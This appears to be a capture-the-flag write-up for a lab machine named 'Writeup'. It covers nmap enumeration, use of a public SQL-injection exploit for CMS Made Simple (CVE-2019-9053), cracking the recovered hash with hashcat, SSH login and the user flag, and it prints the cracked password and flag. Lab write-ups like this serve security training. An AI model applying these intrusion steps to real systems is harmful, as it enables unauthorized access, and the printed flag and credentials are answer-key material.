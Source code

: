 # Writeup

# Enumeration
---
### Nmap
#

Run a tcp syn nmap scan against the target, checking versions and running default scripts on all ports. 
```bash
# Nmap 7.94SVN scan initiated Wed Dec 11 06:50:13 2024 as: nmap -v -sS -sV -sC -T4 -p- -oA nmap-full-tcp-writeup 10.129.229.158
Nmap scan report for 10.129.229.158
Host is up (0.035s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 11 06:52:00 2024 -- 1 IP address (1 host up) scanned in 107.09 seconds

```

### HTTP
#

Retro style website on port 80 talking about DDoS protection

![image](https://github.com/user-attachments/assets/c86b97da-7c2b-4045-93a4-6e59e4965a39)

Visiting key pages such as robots.txt gave the following directory in the Disallow list: /writeup/

![image](https://github.com/user-attachments/assets/8ac080cd-bab5-417d-b1ad-0dae52a77827)

The source code shows this is running [CMS Made Simple](https://www.cmsmadesimple.org/), an open source Content Management System, the copyright gives us a clue this version is from 2019. 

```html
<base href="http://10.129.229.158/writeup/" />
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
```

Browsing Google for vulnerabilities in CMS made simple shows [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053) from 2019. This is a blind SQL vulnerability with a [public exploit](https://www.exploit-db.com/exploits/46635).  

Download the script and make the very basic alterations to get it working. Running the script finds the following information:

```bash
[+] Salt for password found: 1
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

The password looks like an MD5 hash which hashid all but confirms by returning MD2, MD5 and MD4 as the top 3 likely hash algorithms. 

```bash
hashid 62def4866937f08cc13bab43bb14e6f7

Analyzing '62def4866937f08cc13bab43bb14e6f7'
[+] MD2 
[+] MD5 
[+] MD4 
```

Running the hash through hachcat crack it and gives us the users password

```bash
hash
hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt

<--snip-->

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9

<--snip-->
```

**Credentials**
Username : jkr
Password : raykayjay9

### SSH
#

This can be used to access SSH on port 22 identified on our port scan as user jkr and access the user flag. 

```bash
ssh jkr@10.129.229.158                 
The authenticity of host '10.129.229.158 (10.129.229.158)' can't be established.
ED25519 key fingerprint is SHA256:TRwEhcL3WcCSS2iITDucAKYtASZxNYORzfYzuJlPvN4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.229.158' (ED25519) to the list of known hosts.
jkr@10.129.229.158's password: 
Linux writeup 6.1.0-13-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 25 11:04:00 2023 from 10.10.14.23
jkr@writeup:~$ whoami
jkr
jkr@writeup:~$ cat user.txt
ec6a7fb1a03144dd6d6568b17dd85296
```

### User Flag
#

User Flag: ec6a7fb1a03144dd6d6568b17dd85296


**Priv Esc and Root Flag to Follow**
